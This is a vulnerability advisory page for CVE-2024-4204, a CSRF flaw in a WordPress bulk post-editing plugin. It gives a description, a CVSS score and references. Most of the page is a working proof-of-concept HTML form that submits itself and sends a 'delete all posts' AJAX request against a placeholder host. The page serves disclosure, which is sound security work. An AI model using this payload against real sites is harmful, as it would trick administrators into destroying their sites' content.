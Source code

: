 ```yaml
---
layout: page
title: CVE-2024-4204
subtitle: Bulk Posts Editing For WordPress <= 4.2.3 - Cross-Site Request Forgery
---
```

## Description
The Bulk Posts Editing For WordPress plugin for WordPress is vulnerable to Cross-Site Request Forgery in all versions up to, and including, 4.2.3. This is due to missing or incorrect nonce validation on the plugin's AJAX actions.. This makes it possible for unauthenticated attackers to create and duplicate posts, retrieve post content, and modify post taxonomy among other things via a forged request granted they can trick a site administrator into performing an action such as clicking on a link.

## Severity
 4.3 (Medium) - [CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:N/I:L/A:N)

## Affected Version
    <= 4.2.3

## PoC :
```
<html>
  <!-- Made by eneriii - https://twitter.com/aillesim -->
  <body>
    <form action="http://[ASSETS]/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="wpbel&#95;delete&#95;posts" />
      <input type="hidden" name="delete&#95;type" value="all" />
      <input type="hidden" name="filter&#95;data&#91;search&#95;type&#93;" value="pro&#95;search" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;ids&#93;&#91;operator&#93;" value="exact" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;ids&#93;&#91;parent&#95;only&#93;" value="no" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;ids&#93;&#91;value&#93;" value="" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;title&#93;&#91;operator&#93;" value="like" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;title&#93;&#91;value&#93;" value="" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;content&#93;&#91;operator&#93;" value="like" />
      <input type="hidden" name="filter&#95;data&#91;post&#95;content&#93;&#91;value&#93;" value="" />
      <input type="hidden" name="filter&#95;data&#91;taxonomies&#93;&#91;0&#93;&#91;taxonomy&#93;" value="category" />
      <input type="hidden" name="filter&#95;data&#91;taxonomies&#93;&#91;0&#93;&#91;operator&#93;" value="or" />
      <input type="hidden" name="filter&#95;data&#91;taxonomies&#93;&#91;1&#93;&#91;taxonomy&#93;" value="post&#95;tag" />
      <input type="hidden" name="filter&#95;data&#91;taxonomies&#93;&#91;1&#93;&#91;operator&#93;" value="or" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

## Refrence
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/ithemeland-bulk-posts-editing-lite/bulk-posts-editing-for-wordpress-423-cross-site-request-forgery
- https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3085134%40ithemeland-bulk-posts-editing-lite%2Ftrunk&old=2946926%40ithemeland-bulk-posts-editing-lite%2Ftrunk&sfp_email=&sfph_mail=#file51
- https://www.cve.org/CVERecord?id=CVE-2024-4204




